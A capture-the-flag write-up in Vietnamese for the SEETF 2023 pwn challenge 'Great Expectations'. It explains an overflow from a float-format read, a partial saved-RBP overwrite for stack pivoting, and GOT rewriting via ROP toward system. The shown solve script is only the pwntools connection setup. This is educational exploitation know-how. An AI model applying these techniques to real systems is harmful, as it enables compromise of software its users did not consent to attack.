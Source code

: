 ## Write Ups SEETF_2023: 
> Author: lawliet _From phis1Ng_ 
# Some challs in pwns category that I solved:

* 1. Great - Expectations:
    `Description: Ask no questions, and you'll be told no lies. `

>> Ở bài này, trong hàm `input_floats()` có khai báo mảng buf kiểu char với (3 bytes), nhưng có lỗi khi format nhập vào là %f (4 bytes), nên từ 3 lần ghi đề cho, ta có thể đè nhiều nhất 3 bytes xuống canary (kí tự 'A') và 2 bytes của saved_rbp của hàm main. Vì vậy, í tưởng ở đây là ta ghi đè 1 byte (hoặc 2 bytes) của saved_rbp để khiến cho ret trỏ tới chuỗi mà ta mong muốn. Đầu chương trình cho ta nhập nhiều nhất 0x107 kí tự, nên ta có thể pivot stack đến đó, để khiến ret trỏ tới chuỗi payload mà ta muốn.
Để không phải leak libc rồi quay lại hàm main 1 lần nữa thì vì chúng ta có thể ghi đè lên bảng GOT nên ý tưởng của em là dùng ROP để thay đổi địa chỉ của hàm nào đó về one_gadgets, vì offset giữa 2 hàm trong libc luôn cố định nên ta có thể dùng gadget `add dword ptr [rbp - 0x3d], ebx ; nop ; ret` để cộng/trừ offset sao cho địa chỉ đó trỏ tới system

Ta thấy nửa byte đầu của bytes thứ 2 sau LSB của saved_rbp chỉ cách 1 đơn vị so với địa chỉ của buffer mà chương trình cho ta nhập vào. Hơn nữa, byte cuối luôn kết thúc bằng 0x00, 0x10, ..., 0xf0 . Nên ta có cơ hội 1/16 để pivot stack về buffer, xong cộng 1 để bypass check [rbp-1] với A. 

> Solve scripts:

```py
#!/usr/bin/env python3
from pwn import *
import time
import sys
import struct

local = 0
debug = 0

context.arch = 'amd64'
# context.aslr = False
context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def riconn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		io = process('./chall_patched')
		if debug:
			gdb.attach(s, gdbscript='''
            b* 0x00000000004012ae
            b* 0x00000000004011fc
            c
			''')
		else:
			pass
	else:
		io = remote('win.the.seetf.sg', 2004)

```